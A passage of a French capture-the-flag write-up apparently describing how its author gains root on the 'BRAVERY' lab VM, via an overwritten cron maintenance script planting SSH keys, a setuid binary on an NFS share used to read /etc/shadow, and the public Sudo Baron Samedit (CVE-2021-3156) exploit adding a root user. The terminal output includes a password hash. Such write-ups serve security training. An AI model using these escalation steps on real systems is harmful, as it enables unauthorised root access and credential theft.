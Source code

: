On va écraser le script existant avec des commandes à nous :  

```plain
[david@bravery tmp]$ cp my_script.sh /var/www/maintenance.sh
[david@bravery tmp]$ cat /var/www/maintenance.sh
#!/bin/sh
mkdir -p /root/.ssh
cp /home/david/.ssh/authorized_keys /root/.ssh/
```

Si on merdouille on pourrait débuger tout ça en copiant et lisant les mails de l'utilisateur (*/var/spool/mail/root*).  

5 minutes plus tard ma commande est passée :  

```plain
$ ssh root@192.168.101.129
Enter passphrase for key '/home/devloop/.ssh/id_rsa': 
[root@bravery ~]# id
uid=0(root) gid=0(root) groupes=0(root) contexte=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[root@bravery ~]# cat proof.txt 
Congratulations on rooting BRAVERY. :)
```

Qui peut le moins peut le plus
------------------------------

Evidemment on aurait pu mettre directement un binaire setuid root sur le partage NFS et shunter David :  

```plain
[david@bravery nfsshare]$ ./setuid_root 
ABRT has detected 1 problem(s). For more info run: abrt-cli list --since 1530713425
[root@bravery nfsshare]# head -1 /etc/shadow
root:$6$8uypxcySPhhZ/p1p$1Sj6Bbm/tTNOqdmjVWJh9KXH/osqfXi4WQfVkoSEgL5OSKGo7cxdbQRQo.yzibIddtabSHYvDs1IbITaGTd/o.::0:99999:7:::
```

Alternative happy ending
------------------------

La VM est vulnérable à la faille [Sudo Baron Samedit](https://github.com/worawit/CVE-2021-3156) mais l'exploit à utiliser est différent, celui-ci ajoute un utilisateur *gg* (avec le même mot de passe) :  

```plain
[david@bravery CVE-2021-3156-main]$ python exploit_userspec.py
--- snip tons of output ---
offset to first userspec: 0x740

cmnd size: 0xed0
offset to defaults: 0x20
offset to first userspec: 0x740
offset to userspec: 0x0

to skip finding offsets next time no this machine, run: 
exploit_userspec.py 0xed0 0x20 0x740 0x0
gg:$5$a$gemgwVPxLx/tdtByhncd4joKlMRYQ3IVwdoBXPACCL2:0:0:gg:/root:/bin/bash
success at 1513
[david@bravery CVE-2021-3156-main]$ su gg
Password: 
[root@bravery CVE-2021-3156-main]# id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:httpd_t:s0
```


*Published December 14 2021 at 13:49*
